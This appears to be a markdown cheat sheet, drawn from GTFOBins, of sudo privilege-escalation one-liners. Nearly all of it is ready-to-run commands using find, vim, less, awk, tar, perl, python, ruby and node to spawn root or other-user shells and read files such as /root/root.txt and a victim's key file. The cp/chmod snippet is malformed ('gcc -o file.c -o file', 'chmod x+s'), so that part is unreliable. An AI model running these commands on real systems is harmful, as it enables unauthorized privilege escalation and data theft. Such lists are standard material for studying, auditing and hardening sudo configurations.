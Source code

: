 # GTFOBins - Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. The project collects legitimate [functions](https://gtfobins.github.io/functions/) of Unix binaries that can be abused to ~~get the f\*\*k~~ break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

### Unix Commands - Examples

{% code overflow="wrap" %}
```bash
# Find
sudo find . -exec /bin/sh \; -quit
sudo -u victim /usr/bin/find /home -exec /bin/sh \; -quit  # for victim

# Vim
sudo vim -c ':!/bin/sh'

sudo vim
 ## and type
 :!/bin/bash

sudo -u victim /usr/bin/vim   # for victim user 
 ## and type
 :!/bin/bash

# Less
sudo /usr/bin/less /etc/profile
sudo -u victim /usr/bin/less .profile  # for victim user
## and type
!/bin/sh

# Awk
sudo awk 'BEGIN {system("/bin/sh")}'
awk '{print $0}' /home/victim/key.txt

# cp and chmod to escalate to victim
cd /tmp
gcc -o file.c -o file
sudo -u victim /bin/cp file file2 # for victim user
sudo -u victim /bin/chmod x+s file2 # for victim user
./file2 # to escalate

# tar
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
# or 
touch somefile
sudo tar cf /dev/null somefile --checkpoint=1 --checkpoint-action=exec=/bin/sh
id
# uid=0(root) gid=0(root) groups=0(root)

# perl 
sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo -u victim /usr/bin/perl -e 'exec "/bin/sh";' # for victim 
 
sudo /usr/bin/perl -e 'print `cat /root/root.txt`'
sudo -u victim /usr/bin/perl -e 'print `cat /home/victim/key.txt`' # for victim username
 
# python
sudo /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
sudo -u victim /usr/bin/python -c 'import os; os.system("cat /home/victim/key.txt")'

# ruby
sudo /usr/bin/ruby -e 'exec "/bin/sh"'

sudo -u victim /usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'
system("cat /home/victim/key.txt")

# node to escalate
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

# node to read files
 sudo -u victim /usr/local/bin/node -e "var exec = require('child_process').exec;exec('cat /home/victim/key.txt', function (error, stdOut, stdErr) { console.log(stdOut);});"
```
{% endcode %}
